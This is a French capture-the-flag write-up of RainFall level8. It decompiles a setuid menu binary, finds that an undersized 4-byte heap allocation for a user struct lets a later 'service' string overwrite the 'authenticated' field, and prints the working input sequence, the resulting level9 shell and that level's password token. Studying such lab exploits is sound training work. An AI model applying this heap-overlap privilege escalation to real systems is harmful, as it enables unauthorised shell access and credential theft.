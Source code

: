 Je commence par découvrir qui je suis, où je suis, et qu'est-ce qui est à ma disposition :

```bash
$ id && pwd && ls -la
uid=2008(level8) gid=2008(level8) groups=2008(level8),100(users)
/home/user/level8
total 17
dr-xr-x---+ 1 level8 level8   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level8 level8  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level8 level8 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level9 users  6057 Mar  6  2016 level8
-rw-r--r--+ 1 level8 level8   65 Sep 23  2015 .pass
-rw-r--r--  1 level8 level8  675 Apr  3  2012 .profile
```

Je tente de lancer le binaire level8 :

```bash
$ ./level8
(nil), (nil)
da
(nil), (nil)
da da
(nil), (nil)
^C
$ ./level8 da
(nil), (nil)
^C
$ ./level8 da da
(nil), (nil)
^C
```

Je recoupe l'analyse ASM du binaire avec GDB des résultats obtenus sur [Dogbolt](https://dogbolt.org/?id=c81dd233-7ccb-4ab8-8074-27857c96eb14) et en extrait une version probable du code :

```c
struct user {
    int id;
    char login[28];
    int authenticated;
};

int *service;
struct user *user; 

int main() {
    while (1) {
        printf("%p, %p \n", user, service);

        char buffer[128];

        if (!(fgets(buffer, 128, stdin)))
            break;

        if (!(strncmp(buffer, "auth ", 5))) {
            user = malloc(4);
            user->id = 0;

            if (strlen(buffer + 5) <= 30)
                strcpy(user, buffer + 5);
        }

        if (!(strncmp(buffer, "reset", 5)))
            free(user);

        if (!(strncmp(buffer, "service", 6)))
            service = strdup(buffer + 7);

        if (!(strncmp(buffer, "login", 5))) {
            if (user->authenticated)
                system("/bin/sh");
            else
                fwrite("Password:\n", 1, 10, stdout);
        }
    }
    return 0;
}
```

Je note la présence de variables nommées '`auth`' et '`password`', ainsi que des strings litérale `"login"`, '`service`', etc..
Le binaire semble agir comme une sorte de menu dans lequel on peut modifier des informations en écrivant un choix.

Je vérifie cette hypothèse :

```bash
$ ./level8
(nil), (nil)
auth adam
0x804a008, (nil)
(waiting for input)
```

Ok, c'est donc bien un binaire qui agit comme une sorte de menu. J'analyse ses fonctions :

- `auth` semble déclarer un nouvel utilisateur.
- `reset` semble `free` (supprimer) cet utilisateur
- `service` semble stocker une valeur dans la variable globale `service`.
- `login` semble être la clé de ce level, il semble que `login` vérifie le password et, si il est bon, donne accès au shell.


Si mon interprétation est correcte, alors la vulnérabilité semble être ici :

```c
    if (!(strncmp(buffer, "auth ", 5))) {
        user = malloc(4);
        user->id = 0;

        if (strlen(buffer + 5) <= 30) 
            strcpy(user, buffer + 5);
    }
```

On observe que la structure `user` se voit attribué seulement 4 bytes. Or, la structure nécessiterait plus d'espace que 4 bytes.

Je tente d'obtenir plus d'information en utilisant `ltrace` et en appellant `auth ` :

```bash
$ ltrace ./level8
__libc_start_main(0x8048564, 1, 0xbffff804, 0x8048740, 0x80487b0 <unfinished ...>
printf("%p, %p \n", (nil), (nil)(nil), (nil)
)                                                           = 14
fgets(auth
"auth \n", 128, 0xb7fd1ac0)                                 = 0xbffff6e0
malloc(4)                                                   = 0x0804a008
strcpy(0x0804a008, "\n")                                    = 0x0804a008
printf("%p, %p \n", 0x804a008, (nil)0x804a008, (nil)
)                                                           = 18
fgets(
```

Puis en appellant `service` :

```bash
fgets(service
"service\n", 128, 0xb7fd1ac0)                               = 0xbffff6e0
strdup("\n")                                                = 0x0804a018
printf("%p, %p \n", 0x804a008, 0x804a0180x804a008, 0x804a018
)                                                           = 22
fgets(
```

Je détermine que la taille de buffer login dans la structure `user` est de 28 (malgré la comparaison à <= 30 dans `auth`) en me basant sur le retour de `BinaryNinja` qui indique :

```c
if (*(auth + 0x20) == 0)
{
    var_a4 = stdout;
    fwrite("Password:\n", 1, 0xa, var_a4);
}
```

Ici, le binaire veut vérifier la valeur du troisième int de la structure en allant à l'adresse du début de celle-ci + 32 bytes, soit 4 pour l'int `id` puis 28 bytes pour le `login`.

Alors, le manque de byte alloué devient évident en regardant les adresses renvoyées par `ltrace` :

Au moment de `strcpy()`, la structure `user` pointe sur l'adresse : `0x0804a008` mais lorsqu'on attribue une valeur à la variable globale `service`, `ltrace` nous indique qu'on écrit à l'adresse `0x0804a018`... Ce qui est `0x10` bytes plus loin (16). 

Or, la structure `user` nécessiterait au moins 4 bytes pour son `id`, 28 pour son login, et enfin 4 bytes de plus pour le 'booléen' `authenticated` utilisé dans `login`.

La structure nécessiterait donc entre 4 + 28 + 4 = 36 bytes.

Si mes hypothèses sont correctes, alors, et puisque `authenticated` n'est jamais attribué nul part, puisque de toute manière écrasé par `service`, il me suffirait donc d'atteindre la variable `authenticated` et lui donner une valeur positive pour que le login fonctionne.

Je pourrais donner un payload infecté à `service`, qui est 16 bytes plus loin que le début de la structure `user`, et ajouter du padding jusqu'à que service écrive sur la valeur de notre structure `user`, a son paramètre `authenticated`.

Si je considère que l'`id` vaut 4 bytes, puis 28 bytes de `login`, puis 4 bytes pour `authenticated`, je peux en conclure qu'une fois les 16 bytes écrasés par `service`, je me trouve à (4 + 28) - 16 = 16 bytes restant pour le login, et je pourrais ensuite écrire sur `authenticated`.

Mon payload/exploit serait donc le suivant :

- Je m'`auth ` pour déclarer une structure user
- J'appelle `service` écrit 15 caractères de padding ce qui devrait donner une valeur booléenne valide à `authenticated` (j'espace service et les 15 caractère, donc le 17eime caractère devrait écrire sur `authenticated`, et ce sera le `\n`)
- J'appelle `login` et si j'obtiens le shell, alors ça signifie que j'ai bien ré-écris `authenticated`, sinon je retente avec 18 caractère de padding (cas de figure où le login faisait 30 bytes)

J'essaye mon exploit :

```bash
$ ./level8
(nil), (nil)
auth
(nil), (nil)
^C
level8@RainFall:~$ ./level8
(nil), (nil)
auth
0x804a008, (nil)
service ABCDEFGHIJKLMNOP (espace + 16 lettres de l'alphabet => P donnera sa valeur à user->authenticated)
0x804a008, 0x804a018
login
$ whoami
level9
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```

C'est un succès !







